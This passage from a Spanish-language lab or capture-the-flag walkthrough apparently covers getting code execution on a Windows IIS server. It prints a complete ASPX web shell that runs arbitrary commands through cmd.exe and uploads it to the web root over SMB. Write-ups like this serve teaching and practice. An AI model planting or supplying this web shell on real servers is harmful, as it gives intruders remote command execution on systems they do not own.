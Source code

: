 Con esto ya podremos ver que desde esta carpeta se esta mostrando la pagina web que esta corriendo en el puerto `80`, por lo que vamos a crear una pagina con la extension `.aspx` para poder ejecutar comandos de forma remota `(RCE)`, tendremos que hacer lo siguiente:

## Escalate user defaultapppool

> cmd.aspx

```aspx
<%@ Page Language="C#" Debug="true" %>
<%@ Import Namespace="System.Diagnostics" %>
<html>
<head>
    <title>ASPX WebShell</title>
</head>
<body>
    <form method="post">
        <input type="text" name="cmd" style="width: 300px;" />
        <input type="submit" value="Run" />
    </form>
    <pre>
        <% 
            string cmd = Request.Form["cmd"];
            if (!String.IsNullOrEmpty(cmd)) {
                Process proc = new Process();
                proc.StartInfo.FileName = "cmd.exe";
                proc.StartInfo.Arguments = "/c " + cmd;
                proc.StartInfo.UseShellExecute = false;
                proc.StartInfo.RedirectStandardOutput = true;
                proc.StartInfo.RedirectStandardError = true;
                proc.StartInfo.CreateNoWindow = true;
                proc.Start();

                string output = proc.StandardOutput.ReadToEnd() + proc.StandardError.ReadToEnd();
                proc.WaitForExit();
                Response.Write(Server.HtmlEncode(output));
            }
        %>
    </pre>
</body>
</html>
```

Guardaremos esto y desde el servidor `SMB` estando dentro lo subiremos de la siguiente forma:

```shell
put cmd.aspx
```

Info:

```
putting file cmd.aspx as \cmd.aspx (521.5 kb/s) (average 521.5 kb/s)
```
